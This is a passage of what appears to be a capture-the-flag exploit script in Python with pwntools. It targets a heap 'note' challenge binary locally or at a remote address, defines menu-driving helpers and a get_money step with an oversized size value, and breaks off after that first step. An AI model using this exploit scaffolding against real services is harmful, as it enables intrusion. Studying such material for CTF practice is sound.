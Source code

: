 ```python
if local:
    p = process('./note_')
    
else:
	p = remote("124.156.135.103",6004)
	
def debug(addr=0,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        #print "breakpoint_addr --> " + hex(text_base + 0x202040)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr))) 

sd = lambda s:p.send(s)
rc = lambda s:p.recv(s)
sl = lambda s:p.sendline(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)


def info(name,addr):
	log.info(name + " --> %s",hex(addr))

def add(idx,size):
    sla("Choice: ",'1')
    sla("Index: ",str(idx))
    sla("Size: ",str(size))
    

def delete(idx):
    sla("Choice: ",'2')
    sla("Index: ",str(idx))

def show(idx):
    sla("Choice: ",'3')
    sla("Index: ",str(idx))

def edit(idx,data):
    sla("Choice: ",'4')
    sla("Index: ",str(idx))
    sla("Message: \n",data)

def super_edit(idx,data):
    sla("Choice: ",'7')
    sla("Index: ",str(idx))
    sda("Message: \n",data)

def get_money():
    sla("Choice: ",'1')
    sla("Index: ",str(0))
    sla("Size: ",'21524788884141834')
    delete(0)

def super_buy(data):
    sla("Choice: ",'6')
    sla("name: \n",data)


# get enough money
get_money()

```